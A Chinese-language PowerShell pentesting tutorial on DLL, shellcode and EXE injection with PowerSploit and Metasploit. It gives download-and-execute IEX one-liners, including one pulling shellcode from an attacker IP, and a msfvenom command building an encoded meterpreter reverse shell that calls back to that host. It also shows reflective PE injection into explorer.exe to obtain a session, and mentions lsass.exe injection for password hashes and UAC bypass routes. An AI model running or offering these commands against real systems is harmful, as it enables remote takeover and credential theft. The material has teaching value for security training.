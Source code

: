 # powershell(9)-Dll注入&shellcode注入&exe注入

## 理解DLL
首先我们需要知道我们在启动一个程序的时候并没有把所有的需要用到的数据或者文件运行起来，而是只运行了关键部分，那么当我们需要调用到某一功能时再通过DLL来动态链接，不需要时就可以卸载，使得程序不显得臃肿。

## DLL注入是什么
DLL注入就是将代码插入/注入到正在运行的进程中的过程。我们注入的代码是动态链接库（DLL）的形式。为什么可以做到这一点？因为DLL（如UNIX中的共享库）是在运行时根据需要来进行加载。在这个项目中，我将只使用DLL，但是实际上还可以使用其他各种形式（任何PE文件、shellcode/assembly等）来“注入”代码，这些在恶意软件中非常常见。

当然你需要有对应的权限才能进行对某些进程的注入，一般来说，常用技术是注入“lsass.exe”进程以获取密码哈希值。恶意软件也广泛使用代码注入技术，例如，运行shellcode、运行PE文件或将DLL加载到另一个进程的内存中以隐藏自身，等等。

## DLL注入场景
我们来简单的分析一下我们可能遇到的场景：比如我们目前有一台Win2008的机器，目前有两个用户登陆到机器上分别用户A和B，比如我们A用户想看到B用户的桌面是不能实现的（WIndows中的Session隔离机制），我们想要进入到B用户桌面可以通过Dll注入到B用户的Explore进程下，拥有这个进程下的Token使用createremotethread创建线程，去打开桌面。这就是我们DLl注入的利用场景，但是需要注意的是我们只能从高权限往低权限切（好像是废话...），说到高往低权限切换，就简单的提一下UAC...

## UAC
简单来说，这就是个Windows的保护机制，直观感受就是当你打开某些程序的时候会有一个弹框让你确认是否给权限，就像这样
![](./img/dll/6.png)
那么绕过的方法也是有很多，那么大多都是通过下面3点来做的:

1. 使用wusa.exe
2. Dll劫持
3. IFileOperation-COM对象
具体细节大家可自行百度，这里只做提及，最后推荐注入explorer.exe这样的进程，只要操作系统在运行这个进程能稳定的让我们注入。

我们再来看看MSF提供的UAC绕过:
![](./img/dll/7.png)
用这些基本也就够了，那么还有其他大家可以去Github自行发现。

## Powershell-DLL注入

那么对于DLL注入技术不是我们的重点，我们主要是利用Powershell使用已有的工具进行DLL注入，那么Powersploit中的Invoke-DllInjection已经完成对于DLL注入的利用，我们先来看看利用的过程:

1. 利用IEX下载脚本
下载脚本通过下面的语句即可下载：`IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-DllInjection.ps1")`此时，代码已经被运行。

2. 通过MSF生成恶意DLL
![](./img/dll/1.png)
3. 通过Ps加载DLL完成利用
首先我们查看一个我们当前用户能注入的进程，我们选用explorer进程来进行注入
![](./img/dll/2.png)
下面是执行成功的结果
![](./img/dll/3.png)
最后我们可以看到msf返回一个会话：
![](./img/dll/4.png)

## Powershell-ShellCode注入

上面的DLL注入是比较主流的利用方式，但是我们还可以直接注入我们的shellcode进进程，同样也能在powersploit找到对于的代码:Invoke-Shellcode，我们先来看看利用过程：

1. 利用IEX下载脚本
`IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-Shellcode.ps1")`
2. 通过MSF生成恶意代码
![](./img/dll/5.png)
之后通过Web下载的方式来导入shellcode
`IEX(New-Object Net.WebClient).DownloadString("http://172.16.50.1/test")`
3. 通过Ps加载shellcode完成利用
执行代码`Invoke-Shellcode -Shellcode ($buf)`就可以执行代码了，但这样的方式是注入到当前的powershell进程，我们可以通过-processid参数指定我们要注入的进程，但同样需要注意的是用户是否有权限对对应的进程进行注入，`Invoke-Shellcode -Shellcode ($buf) -ProcessID 2344`，还有一点需要注意的是这个脚本是无法验证32位系统还是64位系统，所以需要大家自己去验证之后再进行注入。

## Powershell-EXE注入
下面介绍的这个脚本是我非常喜欢使用的脚本：[反射型PE或者Dll注入](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-ReflectivePEInjection.ps1)，这个脚本能够直接注入我们的EXE文件当然Dll也可以，在我们实际的渗透测试过程中帮助非常大。


这里我们来简单操作一下这个过程:首先生成msf马`msfvenom -p windows/x64/meterpreter_reverse_tcp -e -i 3 LHOST=172.16.50.1 LPORT=2333 -f exe -o ~/shell.exe`之后再通过下面的注入

```powershell
$PEBytes = [IO.File]::ReadAllBytes('.\Desktop\powershell\shell.exe')
Invoke-ReflectivePEInjection -PEBytes $PEBytes -ForceASLR
```

![](./img/dll/8.png)
可以看到我们这里有关于ASLR的警告，这个ASLR就是是一种针对缓冲区溢出的安全保护技术，通过对堆、栈、共享库映射等线性区布局的随机化。那么我们这里只需要加上-ForceASLR参数即可。

![](./img/dll/9.png)

可以看到我们直接就能得到这个会话。